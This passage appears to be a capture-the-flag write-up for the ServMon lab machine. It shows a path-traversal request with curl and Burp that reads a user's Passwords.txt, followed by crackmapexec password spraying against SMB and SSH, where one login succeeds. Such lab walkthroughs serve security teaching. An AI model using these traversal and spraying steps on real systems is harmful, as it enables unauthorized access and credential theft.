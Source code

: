 ```s
[files]
[Mail]
MAPI=1
```
We can test if te vulnerability applies using `curl`:
```shell
❯ curl "http://10.10.10.184/../../../../../../../../../../../../windows/win.ini"
```
This test isn't working because the page is filtering the `../` strings through the normal get requests. But if we try the traversal with `burpsuite`:
![](img/2022-06-16-23-00-18.png)
And it worked! This means that the input sanitization is taking place in frontend and not backend, this is a risk as we can intercept packages with proxies like burpsuite.

## Path traversal to user shell
Now that we can read files in the system, we can try to read the previously enumerated file `C:\Users\Nathan\Destkop\Passwords.txt`:
![](img/2022-06-16-23-03-26.png)
We store the passwords in the file `Results/Passwords.txt` and the usernames `Nadine` and `Natan` in `Results/Usernames.txt`:
```shell
❯ echo -e "Nadine\nNathan" > Results/Usernames.txt
❯ echo -e "1nsp3ctTh3Way2Mars\!\nTh3r34r3To0M4nyTrait0r5\!\nB3WithM30r4ga1n5tMe\nL1k3B1gBut7s@W0rk\n0nly7h3y0unGWi11F0l10w\nIfH3s4b0Utg0t0H1sH0me\nGr4etN3w5w17hMySk1Pa5$" > Results/Passwords.txt
❯ cat Results/Usernames.txt
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Results/Usernames.txt
       │ Size: 14 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ Nadine
   2   │ Nathan
───────┴───────────────────────────────────────────────────────────────────────────
❯ cat Results/Passwords.txt
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Results/Passwords.txt
       │ Size: 151 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ 1nsp3ctTh3Way2Mars!
   2   │ Th3r34r3To0M4nyTrait0r5!
   3   │ B3WithM30r4ga1n5tMe
   4   │ L1k3B1gBut7s@W0rk
   5   │ 0nly7h3y0unGWi11F0l10w
   6   │ IfH3s4b0Utg0t0H1sH0me
   7   │ Gr4etN3w5w17hMySk1Pa5$
───────┴───────────────────────────────────────────────────────────────────────────
```
Now, we can use `crackmapexec` to check all these credentials to test `smb` and `ssh` logins:
```shell
❯ crackmapexec smb 10.10.10.184 -u Results/Usernames.txt -p Results/Passwords.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [+] ServMon\Nadine:L1k3B1gBut7s@W0rk 
❯ crackmapexec ssh 10.10.10.184 -u Results/Usernames.txt -p Results/Passwords.txt
SSH         10.10.10.184    22     10.10.10.184     [*] SSH-2.0-OpenSSH_for_Windows_8.0
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:1nsp3ctTh3Way2Mars! Authentication failed.
```